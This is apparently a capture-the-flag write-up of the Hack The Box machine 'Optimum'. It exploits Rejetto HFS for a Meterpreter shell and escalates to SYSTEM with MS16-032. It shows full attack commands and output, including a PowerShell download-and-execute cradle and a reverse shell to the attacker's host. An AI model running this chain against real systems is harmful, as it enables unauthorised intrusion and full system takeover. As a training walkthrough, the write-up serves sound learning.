


hackthebox Optimum
Released: 18th March 2017 / Pwned: August 28th 2019 - [+] Solved whilst Retired

Optimum can be exploited using 2 CVEs: the 1st to exploit a web server and get a shell on the target system and the 2nd to elevated privileges to SYSTEM. Both CVEs have metasploit modules available for them. The exloit to get a user shell is reliable, but elevating to SYSTEM isn't. To get SYSTEM, I hopped outside of metasploit and ran the exploit manually.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.8
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/optimum# mkdir nmap
root@gotham:~/ctf/optimum# nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.8
...
PORT STATE SERVICE VERSION
80/tcp open http HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), ...
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
Ports
• 80/http - A web server is running! And nmap says that it's a HttpFileServer, whatever that is.
2) 80/http - Rejetto HttpFileServer
Visit the website at http://10.10.10.8

Googling for “HttpFileServer� reveals that this web server is made by rejetto.
If you searchsploit for rejetto, you'll find a series of remote command execution exploits for HttpFileServer.
root@gotham:~/ctf/optimum# searchsploit rejetto
--------------------------------------------------- ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
--------------------------------------------------- ----------------------------------------
Rejetto HTTP File Server (HFS) - Remote Command Ex | exploits/windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple | exploits/windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary | exploits/multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Comm | exploits/windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Comm | exploits/windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Re | exploits/windows/webapps/34852.txt
--------------------------------------------------- ----------------------------------------
Shellcodes: No Result
If you read through exploits/windows/remote/39161.py, you'll see that this spawns a shell by retrieving files off of a server/your attacking system.
Gain Access
3) exploit/windows/http/rejetto_hfs_exec
Fortunately, there's a metasploit module for this exact exploit, which makes the whole process of getting a user shell fairly easy.
Open metasploit with msfconsole, search for rejetto and load the exploit with use.
msf5 > search rejetto
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/http/rejetto_hfs_exec 2014-09-11 excellent Yes Rejetto HttpFileServer Remote Command Execution
msf5 > use exploit/windows/http/rejetto_hfs_exec
msf5 exploit(windows/http/rejetto_hfs_exec) > show options
Module options (exploit/windows/http/rejetto_hfs_exec):
Name Current Setting Required Description
---- --------------- -------- -----------
HTTPDELAY 10 no Seconds to wait before terminating web server
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target address range or CIDR identifier
RPORT 80 yes The target port (TCP)
SRVHOST 0.0.0.0 yes The local host to listen on. This must be an address on the local machine or 0.0.0.0
SRVPORT 8080 yes The local port to listen on.
SSL false no Negotiate SSL/TLS for outgoing connections
SSLCert no Path to a custom SSL certificate (default is randomly generated)
TARGETURI / yes The path of the web application
URIPATH no The URI to use for this exploit (default is random)
VHOST no HTTP server virtual host
Exploit target:
Id Name
-- ----
0 Automatic
set the target IP, set the server host to the IP of your attacking machine and set a server port for the server to listen on.
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST 10.10.14.8
SRVHOST => 10.10.14.8
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVPORT 9001
SRVPORT => 9001
Run the exploit with exploit.
A TCP handler should launch and a meterpreter session will open on your system.
You have a shell.
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit
[*] Started reverse TCP handler on 10.10.14.8:4444
[*] Using URL: http://10.10.14.8:9001/bnHVMkGNN
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /bnHVMkGNN
[*] Sending stage (179779 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.8:49162) at 2019-08-27 21:53:47 +0100
[!] Tried to delete %TEMP%\cAjZznLUxGMBW.vbs, unknown result
[*] Server stopped.
meterpreter > sysinfo
Computer : OPTIMUM
OS : Windows 2012 R2 (Build 9600).
Architecture : x64
System Language : el_GR
Domain : HTB
Logged On Users : 1
Meterpreter : x86/windows
meterpreter > getuid
Server username: OPTIMUM\kostas
From the output of sysinfo, OPTIMUM is a 64-bit machine and we have a meterpreter session that's running as 32-bit.
Priv-Esc
4) local_exploit_suggester
If you have a meterpreter shell on a target Windows system and are at the priv-esc stage, it's a good idea to run metasploit's local_exploit_suggester module, which will read the meterpreter session architecture of your shell on the target system and find exploits for it.
local_exploit_suggester on 32-bit sessions will reliably find exploits.
local_exploit_suggester on 64-bit sessions isn't reliable at all (primarily becasue there aren't many 64-bit metasploit Windows exploits that have a ‘check’ function).
Run local_exploit_suggester against both a 32-bit session and a 64-bit session.
4a) 32-bit local_exploit_suggester
First, run local_exploit_suggester against the initial 32-bit meterpreter session we spawned.
background the meterpreter session, use post/multi/recon/local_exploit_suggester and set the SESSION to run the exploit suggester on to that of your meterpreter session.
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/http/rejetto_hfs_exec) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf5 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 29 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[*] Post module execution completed
2 exploits have been found:
• exploit/windows/local/bypassuac_eventvwr - This is a UAC bypass, which isn't of interest
• exploit/windows/local/ms16_032_secondary_logon_handle_privesc - This is interesting, and what we want.
MS16-032 is the exploit that will get us SYSTEM shell.
For the sake of thorough enumeration, check for exploits against a 64-bit meterpreter session as well.
4b) 64-bit local_exploit_suggester
First, we need to set our meterpreter session to 64-bit by migrating to a 64-bit process.
Switch to your meterpreter session with sessions -i <session number> and run ps to list 64-bit processes on the target machine.
msf5 post(multi/recon/local_exploit_suggester) > sessions -i 1
meterpreter > ps
Process List
============
PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
0 0 [System Process]
4 0 System
232 4 smss.exe
240 1424 mDvZfDUEhLf.exe x86 1 OPTIMUM\kostas C:\Users\kostas\AppData\Local\Temp\rad26F3E.tmp\mDvZfDUEhLf.exe
340 332 csrss.exe
392 332 wininit.exe
404 384 csrss.exe
448 384 winlogon.exe
488 392 services.exe
496 392 lsass.exe
...
972 488 svchost.exe
1008 724 taskhostex.exe x64 1 OPTIMUM\kostas C:\Windows\System32\taskhostex.exe
1028 488 VGAuthService.exe
1088 488 vmtoolsd.exe
1104 488 ManagementAgentHost.exe
1268 488 svchost.exe
1424 2540 wscript.exe x86 1 OPTIMUM\kostas C:\Windows\SysWOW64\wscript.exe
1520 488 dllhost.exe
1620 560 WmiPrvSE.exe
1656 560 WmiPrvSE.exe
1668 488 msdtc.exe
2004 240 cmd.exe x86 1 OPTIMUM\kostas C:\Windows\SysWOW64\cmd.exe
2064 2004 conhost.exe x64 1 OPTIMUM\kostas C:\Windows\System32\conhost.exe
2136 2108 explorer.exe x64 1 OPTIMUM\kostas C:\Windows\explorer.exe
2512 2136 vmtoolsd.exe x64 1 OPTIMUM\kostas C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
2540 2136 hfs.exe x86 1 OPTIMUM\kostas C:\Users\kostas\Desktop\hfs.exe
Migrate to a 64-bit process using migrate <pid>
I chose conhost.exe.
By running sysinfo, you'll now see that your meterpreter session is 64-bit.
meterpreter > migrate 2064
[*] Migrating from 240 to 2064...
[*] Migration completed successfully.
meterpreter > sysinfo
Computer : OPTIMUM
OS : Windows 2012 R2 (Build 9600).
Architecture : x64
System Language : el_GR
Domain : HTB
Logged On Users : 1
Meterpreter : x64/windows
Like before, background the meterpreter session and run the local_exploit_suggester module, this time searching for 64-bit exploits on the target.
meterpreter > background
[*] Backgrounding session 1...
msf5 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.8 - Collecting local exploits for x64/windows...
[*] 10.10.10.8 - 11 exploit checks are being tried...
[*] Post module execution completed
But there's nothing :/
5) MS16-032
As mentioned, exploit MS16-032 is what will give us a SYSTEM shell.
If you read the exploit's description using info, you'll see that this vulnerability affects (amongst others) Windows Server 2012 x64, which is the architecture of OPTIMUM.
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > info
...
Available targets:
Id Name
-- ----
0 Windows x86
1 Windows x64
...
Description:
This module exploits the lack of sanitization of standard handles in
Windows' Secondary Logon Service. The vulnerability is known to
affect versions of Windows 7-10 and 2k8-2k12 32 and 64 bit. This
module will only work against those versions of Windows with
Powershell 2.0 or later and systems with two or more CPU cores.
I couldn't get ms16_032 to work regardless of what I tried.
I migrated to an x64 process and ran the exploit - didn't work.
I set the payload of the exploit to return a 64-bit meterpreter shell - didn't work.
I set the original rejetto exploit to spawn a 64-bit shell and ran the exploit on that 64-bit shell - the exploit still didin't work
I have no idea why none of this stuff worked (according to other write-ups, it's supposed to).
5a) MS16-032 Manual
Fortunately, I could get ms16-032 to run manually.
wget PowerShell Empire's version of MS16-032, which provides a parameter for you to run your own commands with the exploit (instead of spawning cmd.exe like the one on exploitdb does) - https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1
root@gotham:~/ctf/optimum# wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1
...
root@gotham:~/ctf/optimum# mv Invoke-MS16032.ps1 ms16empire.ps1
And wget nishang's PowerShell TCP reverse shell script, which you'll use with MS16-032 to send a SYSTEM shell back to you - https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
root@gotham:~/ctf/optimum# wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
...
root@gotham:~/ctf/optimum# mv Invoke-PowerShellTcp.ps1 shell.ps1
Now modify PowerShell Empire's MS16-032 exploit script to execute your reverse shell.
This reverse shell script will run with SYSTEM privileges and give you a SYSTEM shell.
At the bottom script, write a line to run the Invoke-MS16032 function and include a -Command parameter that will execute the reverse shell sitting on your attacking system and connect back to the IP and port your specify.
root@gotham:~/ctf/optimum# nano ms16empire.ps1
...
$StartTokenRace.Stop()
$SafeGuard.Stop()
}
}
Invoke-MS16032 -Command "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/shell.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 9002"
Serve Empire's MS16-032 exploit and Nishang's PowerShell reverse shell from your attacking machine using python -m SimpleHTTPServer
root@gotham:~/ctf/optimum# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Start a netcat listener on your attacking machine to receive the SYSTEM shell
root@gotham:~/ctf/optimum# nc -lvnp 9002
listening on [any] 9002 ...
Switch over to your meterpreter session and drop into a system shell with shell
meterpreter > shell
Process 2620 created.
Channel 3 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\kostas\Desktop>
And, finally, run Empire's MS16-032 exploit with powershell "IEX(New-Object)...
C:\Users\kostas\Desktop>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/ms16empire.ps1')"
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/ms16empire.ps1')"
__ __ ___ ___ ___ ___ ___ ___
| V | _|_ | | _|___| |_ |_ |
| |_ |_| |_| . |___| | |_ | _|
|_|_|_|___|_____|___| |___|___|___|
[by b33f -> @FuzzySec]
[!] Holy handle leak Batman, we have a SYSTEM shell!!
You should see Empire's exploit and your PowerShell reverse shell being downloaded from your python server on your attacking machine
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.8 - - [28/Aug/2019 13:34:36] "GET /ms16empire.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [28/Aug/2019 13:34:50] "GET /shell.ps1 HTTP/1.1" 200 -
And a connection on your listener
listening on [any] 9002 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.8] 49197
Wait a few seconds for the PowerShell session to spawn, and you'll have an nt authority\system shell!
listening on [any] 9002 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.8] 49197
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Users\kostas\Desktop>whoami
nt authority\system
Go grab user.txt.txt and root.txt
PS C:\Users\kostas\Desktop> cat user.txt.txt
d0c3940...
PS C:\Users\kostas\Desktop> cat C:\Users\Administrator\Desktop\root.txt
51ed1b3...